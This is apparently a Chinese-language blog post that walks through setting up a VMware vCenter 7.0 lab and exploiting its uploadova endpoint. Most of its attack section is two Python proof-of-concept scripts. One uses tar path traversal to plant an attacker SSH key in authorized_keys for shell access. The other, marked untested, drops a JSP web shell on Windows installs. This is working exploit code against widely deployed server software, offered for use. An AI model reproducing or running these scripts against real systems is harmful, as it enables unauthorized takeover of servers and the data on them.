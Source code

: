 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/IjNLS-a464fPJwkdBXCbmA)

1. 安装 EXSI  7.0.0

```
VMware vSphere虚拟机监控程序（ESXi）
链接：https://cld16.irans3.com/dlir-s3/VMware-VMvisor-Installer-7.0.0-15843807.x86_64.iso
VMware-VMvisor-Installer-7.0.0-15843807.x86_64.iso档案大小：350 MB
MD5：220d2e87290f50c3508214cadf66b737
SHA1：7fda0401ee1b2f49aae89043f9b2d509cf7e25db
```

安装：https://blog.51cto.com/10802692/2409826

下载 vCenter Server

```
VMware vCenter Server
链接：https://cld5.irans3.com/dlir-s3/VMware-VCSA-all-7.0.0-15952498.iso
VMware-VCSA-all-7.0.0-15952498.iso档案大小：6.42 GB
MD5：94bb30ae83cd5f12e2eecce114d43007
SHA1：17aa2b1ee20e977fb4f8f8391563f57c3e456361
```

安装：https://blog.csdn.net/qq_38028248/article/details/107712839

过程很痛苦。机器差的时候很难受

![](https://mmbiz.qpic.cn/mmbiz_jpg/RpxgdDjibJqc5IFjicibQmePLm8qzxraOAcasDCibmbkdgEdNiccd3gJTWBYZx3GwKheibX6nAyK6IfmnbfPFcc1hWag/640?wx_fmt=jpeg)

建议安装的时候弄个好点的机器。不然等的人难受死了  

安装完成之后访问一下

![](https://mmbiz.qpic.cn/mmbiz_jpg/RpxgdDjibJqc5IFjicibQmePLm8qzxraOAcrTguoRmxyurSHtsQQibq5aicst2ZNbGcWjh8xfibzxhDZ29toB7FzQYJw/640?wx_fmt=jpeg)

漏洞 URL  

http://192.168.1.74/ui/vropspluginui/rest/services/uploadova

![](https://mmbiz.qpic.cn/mmbiz_jpg/RpxgdDjibJqc5IFjicibQmePLm8qzxraOAcHZKZGKzS4zutaKR50OCzbpcdOOIpzesiaUicTKGwtviaOU7IUqwoVjVLQ/640?wx_fmt=jpeg)

ssh 密钥的生成 【首先你需要建立一个 vsphere-ui 用户。然后执行】  

```
└──╼ $ssh-keygen -t rsa 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/vsphere-ui/.ssh/id_rsa): 
Created directory '/home/vsphere-ui/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/vsphere-ui/.ssh/id_rsa.
Your public key has been saved in /home/vsphere-ui/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:LOMvCLXw5tFpjsVBZ9XS5ytU/CRKWba+gAlvObdFqnM vsphere-ui@localhost
The key's randomart image is:
+---[RSA 2048]----+
|         ..o +o  |
|      . o . =.=..|
|     . o.  o =o+ |
|  . . .. o +o+. .|
|   + +ooS B.+ o. |
|  . =.*o . +.+.. |
|   + B.   o E..  |
|    + o.   o     |
|       ..        |
+----[SHA256]-----+
```

POC

```
import tarfile
import os
from io import BytesIO
import requests

proxies = {
  "http": "http://127.0.0.1:8080",
  "https": "http://127.0.0.1:8080",
}

def return_zip():
    with tarfile.open("test.tar", 'w') as tar:
        payload = BytesIO()
        id_rsa_pub='ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCyBpWm4gYdlD7v2AJw7F1GQcnXA+XNBC5ZQfau6XqePZa53gNz1oobSopNbZCbZ/nm50Z0OkIk3XjYmfNXovh4xlVKjCHPDYkoWzDo2A6y8nNFGmVtsACSg5CxpdscYXnrqbhlc+PCjmL6lTs/y8Zul+mYIstNp+oRCmIxEwRgM6g5PxKnlDcDnUW9OCwgK579Q1NR8GasTRIxrYSPHmiyEdv1nfE3KKDOkHfBrTKHR08FYgJDlyGG2rdn6PpuMpR+hV17t/EgbKEAxMqAmBgh3eVFoFJasP5x8pUBmRLg0F1F/zs7bzn3pNJTc97LdxB9UfTEgqiAkOTE47julDIF vsphere-ui@localhost'
        tarinfo = tarfile.TarInfo(name='../../../home/vsphere-ui/.ssh/authorized_keys')
        f1 = BytesIO(id_rsa_pub.encode())
        tarinfo.size = len(f1.read())
        f1.seek(0)
        tar.addfile(tarinfo, fileobj=f1)
        tar.close()
        payload.seek(0)
def getshell(url):
    files = {'uploadFile':open('test.tar','rb')}
    try:
        r = requests.post(url=url, files=files,proxies=proxies,verify = False).text
        print(r)
    except:
        print('连接服务器失败')

if __name__ == "__main__":
    try:
        return_zip()
        url="https://192.168.1.74/ui/vropspluginui/rest/services/uploadova"
        getshell(url)
    except IOError as e:
        raise e
```

执行完之后。进行登陆尝试

![](https://mmbiz.qpic.cn/mmbiz_jpg/RpxgdDjibJqc5IFjicibQmePLm8qzxraOAclDsyibiaB7Z3iciaNibfQIyxialCk67d9Y0jWs8HcUWpnD8wuTANeZnExXmg/640?wx_fmt=jpeg)

这种方式只针对 Linux 有效  

Windows 需要改一下 POC 【**未测试**】

```
#coding:utf-8
import tarfile
import os
from io import BytesIO
import requests
import base64

proxies = {
  "http": "http://127.0.0.1:8080",
  "https": "http://127.0.0.1:8080",
}


def return_zip():
    with tarfile.open("test.tar", 'w') as tar:
        payload = BytesIO()
        shell='xxxx'
        data = base64.b64decode(shell)
        tarinfo = tarfile.TarInfo(name="..\\..\\ProgramData\\VMware\\vCenterServer\\data\\perfcharts\\tc-instance\\webapps\\statsreport\\test.jsp")
        f1 = BytesIO(data)
        tarinfo.size = len(f1.read())
        f1.seek(0)
        tar.addfile(tarinfo, fileobj=f1)
        tar.close()
        payload.seek(0)

def getshell(url):
    files = {'uploadFile':open('test.tar','rb')}
    try:
        r = requests.post(url=url, files=files,proxies=proxies,verify = False).text
        print(r)
        print('shell地址:/statsreport/test.jsp')
    except:
        print('连接服务器失败')

if __name__ == "__main__":
    try:
        return_zip()
        url="https://192.168.1.74/ui/vropspluginui/rest/services/uploadova"
        getshell(url)
    except IOError as e:
        raise e
```

 原作者博客: https://www.o2oxy.cn/